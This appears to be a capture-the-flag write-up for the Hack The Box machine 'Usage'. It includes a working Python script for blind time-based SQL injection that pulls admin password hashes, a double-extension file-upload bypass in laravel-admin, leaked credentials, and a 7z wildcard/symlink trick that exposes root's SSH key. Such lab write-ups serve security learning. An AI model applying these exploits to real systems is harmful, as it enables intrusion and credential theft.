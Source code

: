 # Usage

## Info

Usage is an easy linux machine from hack the box.

## Nmap

Open tcp ports.

```
22
80
```

## User

There is a blind time based sql injection in the reset password functionality.

```python
def extract_info():
    
    valid_chars = string.ascii_uppercase + string.ascii_lowercase + string.digits + '$\./'

    #valid_chars = string.ascii_lowercase + string.digits

    FOUND = True

    found_chars = ['']

    new_found_chars = []

    while(FOUND):

        FOUND = False

        for found_c in found_chars:
            for valid_c in valid_chars:

                c = found_c + valid_c
        
                data_dict = {'_token' : TOKEN, 'email' : ''}

                data_dict['email'] = f"admin@usage.htb' UNION SELECT 1,2,3,if((SELECT count(*) FROM admin_users WHERE password LIKE BINARY \"{c}%\") > 0,benchmark(10000000,MD5(1)), 'false'),5,6,7,8 -- -"

                t0 = time.time()

                resp = requests.post(url, data=data_dict, cookies=cookies_dict)

                t1 = time.time()

                total_time = t1 - t0

                if total_time > 4:
                    print(c, total_time)
                    new_found_chars.append(c)
                    FOUND = True
        
        found_chars = new_found_chars

```

Admin password

```
whatever1
```

laravel-admin is vulnerable to a file upload vulnerability.

```
1. upload a php script php.jpg
2. after upload success, re-upload and change file name to php.jpg.php
3. file location is uploads/images/
```

## root

user xander password is in .monitrc of dash user home directory.

```
3nc0d3d_pa$$w0rd
```

sudo allows a binary to run which uses 7z to zip /var/html/www.

```
1. place file @id_rsa in /var/html/www
2. create link ln -s /root/.ssh/id_rsa id_rsa
3. run sudo binary
```

This will exploit the wildcard vuln and out put the ssh key as an error because it cannot be zipped.
